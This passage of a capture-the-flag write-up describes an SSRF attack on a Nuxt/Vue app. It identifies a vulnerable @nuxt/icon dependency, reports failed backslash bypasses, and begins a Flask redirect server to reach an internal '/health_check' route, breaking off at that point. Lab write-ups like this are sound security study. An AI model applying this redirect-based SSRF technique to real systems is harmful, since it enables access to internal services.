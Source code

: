 Client : 
```javascript
<script setup>
import { ref, onMounted } from 'vue';
const delay = ms => new Promise(resolve => setTimeout(resolve, ms))
const cards = ref(new Array(8))
const { data, error } = await useAsyncData('fetchDox', async () => {
  try {
    const response = await $fetch('http://backend:5000/api/dogs')
    console.log(response)
    return response
  } catch (err) {
    console.error('Error fetching data:', err)
    return cards;
  }

})

onMounted(async () => {
  console.log(data)
  if (data) cards.value = data.value;
  console.log(cards)
});
```
Well it looks like server just call to the the "/api/dogs"... Im trying to figure out some way to ssrf this app and its too hard. So we have a hint from authors
 ![image](https://hackmd.io/_uploads/ryfeZTm8kx.png)

So now , we just need to find a CVE which we can just check version of packages in our app.
```json=
  "dependencies": {
    "@nuxt/icon": "1.4.4",
    "@nuxtjs/proxy": "^2.1.0",
    "nuxt": "^3.13.0",
    "vue": "latest",
    "vue-router": "latest"
  },
```
Ye , there is only one unupdated is @nuxt/icon. Search on google and we will find this.
![image](https://hackmd.io/_uploads/SJW_ZpQUyl.png)

And we try to test this on our app.
![image](https://hackmd.io/_uploads/S1ni-pQLyx.png)
Now we can call to the route right ??? Nope, its seem impossible

![image](https://hackmd.io/_uploads/r1sJGp78Je.png)
Look at the implementation of url parse we can know the reason why.![image](https://hackmd.io/_uploads/H1L-zT78kl.png)
- Our url will be catched with the basename "/" and then i tried some bypass with "\" and "%5C" but it is impossilbe so we need to find another way. Take a breathe, and we can control the place our server will redirect to right ? 
- So the idea is really simple !!! Make it redirect to our own app !!! And we can just redirect it back to its route ("/health_check")
# Implement own server 
```python
from flask import Flask,request,redirect
import requests
app = Flask(__name__)

@app.route('/')

def home():
```